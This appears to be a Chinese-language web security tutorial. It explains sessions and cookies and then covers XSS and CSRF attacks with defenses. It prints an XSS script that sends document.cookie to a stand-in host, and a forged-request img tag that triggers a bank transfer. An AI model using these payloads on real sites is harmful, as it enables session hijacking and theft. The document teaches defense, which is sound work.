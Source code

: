 Session原理：浏览器第一次访问服务器时，服务器会响应一个cookie给浏览器。这个cookie记录的就是sessionId，之后每次访问携带着这个sessionId，服务器里查询该sessionId，便可以识别并跟踪特定的用户了。

Cookie原理：第一次访问服务器，服务器响应时，要求浏览器记住一个信息。之后浏览器每次访问服务器时候，携带第一次记住的信息访问。相当于服务器识别客户端的一个通行证。

Cookie不可跨域，浏览览器判断一个网站是否能操作另一个网站Cookie的依据是域名。Google与Baidu的域名不一样，因此Google不能操作Baidu的Cookie，换句话说Google只能操作Google的Cookie。

# 网络攻击

## 一、跨站脚本攻击（document.cookie）

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

#### 防范手段

##### 1. 设置 Cookie 为 HttpOnly，防止 脚本调用

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

##### 2. 过滤特殊字符

例如将 `<` **转义**为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。比如form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

## 二、跨站请求伪造（登录信息尚未过期）

#### 攻击原理

假如一家银行用以执行转账操作的 URL 地址如下：

```
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName。
```

那么，一个恶意攻击者可以在另一个网站上放置如下代码：

```
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">。
```

如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，**登录信息尚未过期**，那么她就会损失 1000 美元。（两个刚好，刚好有账户名为李华的人，刚好登陆信息没有过期）

由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。如发邮件，发消息，甚至财产操作如转账和购买商品。他可以将这种地址藏在论坛，博客等任何用户生成内容的网站中。这意味着如果服务器端没有合适的防御措施的话，用户即使访问熟悉的可信网站也有受攻击的危险。
